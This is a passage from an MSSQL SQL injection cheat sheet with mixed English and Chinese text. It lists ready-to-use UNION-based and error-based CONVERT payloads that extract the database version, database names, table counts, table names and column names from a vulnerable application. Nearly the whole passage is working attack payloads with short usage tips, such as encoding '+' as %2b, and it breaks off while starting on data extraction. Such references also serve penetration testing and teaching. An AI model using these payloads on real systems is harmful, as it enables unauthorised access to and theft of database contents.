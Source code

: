 Extract data from another database (replace other_database, other_table and other_column):

```sql
1 UNION SELECT NULL,other_column,NULL FROM other_database..other_table--
```

## Error Based 基于错误

CONVERT

这种技术与基于MySQL双查询错误的注入（在[[…/MySQL/MySQL实用注入备忘单0]]中讨论）非常相似，因为错误是强制的；但是，包含一个有效的MSSQL查询，该查询首先被执行，导致查询结果显示在错误消息中。在下面的示例中，如果直接输入地址栏，请务必使用%2b编码+。执行这种攻击有两种方法，下面列出的第一种最快。

### Method 1 – Quicker 

Extract database version:

```sql
1 AND 1=CONVERT(INT,@@version)--
```

Extract number of databases:

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58)))--
```

Extract database names (replace N with a number starting from 1):

```sql
1 AND 1=CONVERT(INT,db_name(N))--

1 AND 1=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58)))--
```

Extract table names (replace N with a number starting from 1):

```sql
1 AND 1= CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top N TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58)))--
```

To extract column names (replace table1 with appropriate table name):

```sql
1 AND 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top N column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58)))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):
